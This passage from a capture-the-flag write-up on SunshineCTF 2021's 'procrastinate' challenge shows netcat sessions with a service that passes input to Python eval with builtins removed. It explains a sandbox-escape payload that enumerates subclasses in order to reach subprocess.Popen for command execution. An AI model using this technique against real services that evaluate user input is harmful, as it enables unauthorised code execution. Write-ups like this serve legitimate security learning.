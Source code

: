 This again was very clearly some middle part of the flag and so I proceeded to the final level.
On connecting to this level we are greeted with the below message:

```sh
┌──(cryptonic㉿cryptonic-kali)-[~/CTFs/sunshinectf/procrastinate]
└─$ nc procrastinate.chal.2021.sunshinectf.org 65002
Welcome to the ProcrastinatorProgrammer backend.
Please give me an equation! Any equation! I need to be fed some data to do some processing!  
Due to technical difficulties with the previous set, I had to remove math lib support!  

In fact the only thing this can do is add and subtract now!... I think. Google tells me that  
it's secure now! Well the second result anyhow.  

I'm super secure, and can use a bit of python math!  
I just use `eval(client_input, {'__builtins__':\{\}})` on your data and then whamo, python  
does all the work!Whatever you do, don't look at my ./key!

Halt in the name of the law!

What was the ./key found in the previous challenge?

_safe_
Give me an equation please!
```  

This level was a bit challenging and required a more complicated payload as the **`builtins`**
module was restricted. This meant any of the default Python functions were not available. However,
there would necessarily be some imports used in this level's code.  

There can surely be vulnerable modules which can be exploited via eval. Also to find the classes and
modules in the import we can use the payload **`().__class__.__base__.__subclasses()`**. This lists
all the classes loaded as part of this code. We find that the **`subprocess.Popen`** class is available
which can be used to run any OS commands on the shell.  

```sh
┌──(cryptonic㉿cryptonic-kali)-[~/CTFs/sunshinectf/procrastinate]
└─$ nc procrastinate.chal.2021.sunshinectf.org 65002
Welcome to the ProcrastinatorProgrammer backend.  
Please give me an equation! Any equation! I need to be fed some data to do some processing!  

Due to technical difficulties with the previous set, I had to remove math lib support! 
In fact the only thing this can do is add and subtract now!... I think. Google tells me that  
it's secure now! Well the second result anyhow.I'm super secure, and can use a bit of python math!  

I just use `eval(client_input, {'__builtins__':\{\}})` on your data and then whamo, python  
does all the work!Whatever you do, don't look at my ./key!

Halt in the name of the law!

What was the ./key found in the previous challenge?

_safe_
Give me an equation please!

().__class__.__base__.__subclasses__()                     
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>,
<class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, 
<class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, 
<class 'dict'>, ....  
....
....
<class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, 
<class 'contextlib.ContextDecorator'>, <class 'contextlib._GeneratorContextManagerBase'>, 
```

[1]: https://ctftime.org/team/2500
[2]: https://ctftime.org/event/1430
[3]: https://en.wikipedia.org/wiki/Base64
[4]: https://github.com/Ganapati/RsaCtfTool
[5]: https://amritabi0s.wordpress.com/2017/12/17/inctf-2017-rsa-1s-fun-writeup/comment-page-1/
[6]: https://docs.sympy.org/latest/modules/core.html?highlight=gcd#sympy.core.numbers.Number.gcd
[7]: https://gcdn.pbrd.co/images/UpCUChV0D0sj.gif?o=1
[8]: https://pequalsnp-team.github.io/writeups/common_modulus
[9]: https://docs.python.org/3.8/library/functions.html#eval
[10]: https://docs.python.org/3.8/library/functions.html#exec
[11]: https://docs.python.org/3.8/library/builtins.html
[12]: https://gcdn.pbrd.co/images/p2LbJZx0aIoU.gif?o=1